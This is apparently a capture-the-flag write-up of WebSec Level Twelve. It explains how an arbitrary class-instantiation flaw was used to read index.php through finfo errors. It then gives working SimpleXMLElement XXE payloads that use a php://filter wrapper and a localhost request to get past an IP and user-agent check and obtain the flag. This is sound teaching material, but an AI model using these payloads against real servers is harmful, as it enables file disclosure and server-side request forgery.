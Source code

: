 Ok so this was a pretty hard level.
At first I tried to treat this as a blackbox and to bypass the class name check but nothing worked.
I then tried to search for pre declared classes, that take at least 2 parameters that are strings or something that a string could be casted to (for example integer).

I wrote this code to help me see those functions:




```
$classes = get_declared_classes();

foreach ($classes as $class) {
    $refClass = new ReflectionClass($class);

    if ($refClass->hasMethod('__construct')) {
        $constructor = $refClass->getMethod('__construct');

        if ($constructor->class !== $class) {
            continue;
        }

        $params = $constructor->getParameters();

        if (count($params) < 2) {
            continue;
        }

        echo "Class: $class\n";
        echo "Constructor: function __construct(";

        $paramStrs = [];
        foreach ($params as $param) {
            $paramStr = '$' . $param->getName();

            if ($param->isOptional()) {
                try {
                    $default = var_export($param->getDefaultValue(), true);
                    $paramStr .= ' = ' . $default;
                } catch (ReflectionException $e) {
                    $paramStr .= ' = ?';
                }
            }

            $paramStrs[] = $paramStr;
        }

        echo implode(', ', $paramStrs);
        echo ")\n\n";
    }
}
```

Which printed me said functions, now what I didn't realise at the time was that this script didn't work well, some base classes do have a constructor but it's C internal and php can't "see it". Which made me miss some functions.

After I spent **a while** looking at the functions this gave me, I noticed that there are functions that I didn't check that I can call construct on.
So I decided to look at them one by one.
At some point I reached a function that looked interesting - finfo.
I tried calling it like:
```echo new finfo(0, index.php)``` - This printed the contents of it but in a really bad way, printing that each line there had an error so I got the contents of index.php
What happened was that this class expects a database as its second string, so when I gave it index.php, it tried opening it and saw it's not a database so it threw errors for every line there, giving me the option to read the file.

In retrospect I could've achieved this with what I did after this using XXE.

Then the content I got was this:

```
<!DOCTYPE html>
<html>
<head>
	<title>#WebSec Level Twelve</title>

    <link href="/static/bootstrap.min.css" rel="stylesheet" />
    <link href="/static/websec.css" rel="stylesheet" />

    <link rel="icon" href="/static/favicon.png" type="image/png">
</head>
	<body>
		<div id="main">
			<div class="container">
				<div class="row">
					<h1>LevelTwelve <small> - This time, it's different.</small></h1>
				</div>
				<div class="row">
					<p class="lead">
						Since we trust you <em>very much</em>, you can instanciate a class of your choice, with two arbitrary parameters.</br>
						Well, except the dangerous ones, like <code>splfileobject</code>, <code>globiterator</code>, <code>filesystemiterator</code>,
						and <code>directoryiterator</code>.<br>
 						Lets see what you can do with this.
                    			</p>
				</div>
			</div>
			<br>
			<div class="container">
				<div class="row">
					<form name="username" method="post" class="form-inline">
						<samp>
						<div class="form-group">
							<label for="class" class="sr-only">class</label>
							echo <span class='text-success'>new</span>
							<input type="text" class="form-control" id="class" name="class" placeholder="class" required>
							(
						</div>
						<div class="form-group">
							<label for="param1" class="sr-only">first parameter</label>
							<input type="text" class="form-control" id="param1" name="param1" placeholder="first parameter" required>
							,
						</div>
						<div class="form-group">
							<label for="param2" class="sr-only">second parameter</label>
							<input type="text" class="form-control" id="param2" name="param2" placeholder="second parameter" required>
							);
						</div>
						</samp>
      						<button type="submit" class="btn btn-default">launch!</button>
					</form>
				</div>
                <?php
                ini_set('display_errors', 'on');
                ini_set('error_reporting', E_ALL);

                if (isset ($_POST['class']) && isset ($_POST['param1'])  && isset ($_POST['param2'])) {
                    $class = strtolower ($_POST['class']);

                    if (in_array ($class, ['splfileobject', 'globiterator', 'directoryiterator', 'filesystemiterator'])) {
			    die ('Dangerous class detected.');
                    } else {
			    $result = new $class ($_POST['param1'], $_POST['param2']);
			    echo '<br><hr><br><div class="row"><pre>' . $result . '</pre></div>';
		    }
                }
                ?>
			</div>
		</div>
	</body>
</html>

<?php
/*
Congratulation, you can read this file, but this is not the end of our journey.

- Thanks to cutz for the QA.
- Thanks to blotus for finding a (now fixed) weakness in the "encryption" function.
- Thanks to nurfed for nagging us about a cheat
*/

$text = 'Niw0OgIsEykABg8qESRRCg4XNkEHNg0XCls4BwZaAVBbLU4EC2VFBTooPi0qLFUELQ==';
$key = ini_get ('user_agent');

if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {
    if ($_SERVER['HTTP_USER_AGENT'] !== $key) {
    	die ("Cheating is bad, m'kay?");
    }
    
    $i = 0;
    $flag = '';
    foreach (str_split (base64_decode ($text)) as $letter) {
        $flag .= chr (ord ($key[$i++]) ^ ord ($letter));
    }
    die ($flag);
}
?>
```


Which shows that there is another php script, that checks the incoming IP and user_agent, if it's right it prints out the flag.
This is obviously a CSRF that I need to do to make the server get the index.php file itself and get the contents.

I then searched online and looked for different ways to include another page on a remove server using a class initialization.
I discovered XXE and searched for classes that can maybe help me, I found SimpleXmlElement.
I then searched XXE SimpleXmlElement and found this - https://github.com/ngallagher/simplexml/issues/18

I tried this locally untill I got it to work.
my payload was this:
```
Class = SimpleXmlElement
param1 = "<!DOCTYPE r [<!ENTITY page SYSTEM 'index.php'>]><foo>&page;</foo>"
param2 = "2" - LIBXML_NOENT
```
But what I got was a lot of errors which looked like the page I'm trying to include isn't XML compatible so it's bugging out.
Then I had an idea to use a base64 convertion filter and decode it locally after i get it, so my payload was:
```
Class = SimpleXmlElement
param1 = "<!DOCTYPE r [<!ENTITY page SYSTEM 'php://filter/read=convert.base64-encode/resource=index.php'>]><foo>&page;</foo>"
param2 = "2"
```
Which gave me a base64 string :)
But when I decoded it it just gave me the contents of index.php without the flag.
This got me wondering, why wasn't the ip of the sender the server's and the useragent the same?
And then I figured it out, when I include it like this, it's still my request, I need the xml to request itself the page.
So I changed my payload to this:
```
Class = SimpleXMLElement
param1 = "<!DOCTYPE r [<!ENTITY page SYSTEM 'php://filter/read=convert.base64-encode/resource=http://127.0.0.1/level12/index.php'>]><foo>&page;</foo>"
param2 = "2"
```
Which gave me the flag - WEBSEC{Many_thanks_to_hackyou2014_web400_MSLC_<3} :)